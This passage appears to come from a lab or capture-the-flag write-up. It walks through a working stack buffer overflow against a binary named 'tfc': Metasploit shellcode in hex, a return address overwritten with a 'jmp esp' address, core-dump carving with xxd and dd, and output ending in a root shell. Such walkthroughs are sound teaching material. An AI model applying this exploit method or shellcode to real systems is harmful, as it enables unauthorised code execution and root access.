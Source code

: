 Also, generating payload with ```-b``` switch allows us to specify characters to blacklist. We don't want any null bytes in our shellcode, so we'll blacklist that.

*EDIT: Thanks to [TheColonial](https://twitter.com/TheColonial) for pointing this out - getting rid of NULL bytes is actually not required. NULL bytes are fine as we're reading from file and an entire file is read into memory!*

Ok, now we have all we need. Let's have a look how our final exploit will look like.

{% codeblock lang:python %}
#/usr/bin/python

# Metasploit generated shellcode - 70 bytes
shellcode = "\xdb\xd0\xbd\x79\xf6\x5f\x15\xd9\x74\x24\xf4\x58\x33\xc9\xb1\x0b\x31\x68\x1a\x03\x68\x1a\x83\xc0\x04\xe2\x8c\x9c\x54\x4d\xf7\x33\x0d\x05\x2a\xd7\x58\x32\x5c\x38\x28\xd5\x9c\x2e\xe1\x47\xf5\xc0\x74\x64\x57\xf5\x8f\x6b\x57\x05\xbf\x09\x3e\x6b\x90\xbe\xa8\x73\xb9\x13\xa1\x95\x88\x14"

content = "A" * 4124             # fill up the buffer
content += "\x93\x8e\x04\x08"    # overwrite return address with address of 'jmp esp' instruction
content += "\x83\xec\x7f"        # instruction code for 'sub $esp, 175' to make space on the stack for the shellcode (basically rewinding stack)
content += shellcode             # our shellcode (70 bytes)
content += "\x90" * 105          # padding after the shellcode to ensure nothing immediatelly after the shellcode is executed as well and therefore corrupting our shellcode

# Print the exploit (we'll redirect output to file)
print content
{% endcodeblock %}

Alright, let's rock'n'roll, print exploit to file, run it through ```tfc```, extract encrypted exploit from core, pass it in again and it should work!

```
root@kali:~# python exploit.py > exploit.in.tfc
root@kali:~# ./tfc exploit.in.tfc exploit.out.tfc
Segmentation fault (core dumped)
root@kali:~# xxd core | grep 'def0 5bab'
002fe00: def0 5bab 5df7 ab43 0690 fe64 6cb0 0b48  ..[.]..C...dl..H
```

Use ```dd``` to carve out what we need, byte by byte, skipping first 196096 bytes (002fe00 in hex - as above) and grabbing all 4306 bytes (total length of our exploit):

```
root@kali:~# dd if=core of=exploit.out.tfc skip=196096 count=4306 bs=1
4306+0 records in
4306+0 records out
4306 bytes (4.3 kB) copied, 0.017911 s, 240 kB/s
root@kali:~# ./tfc exploit.out.tfc pwnd.tfc
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

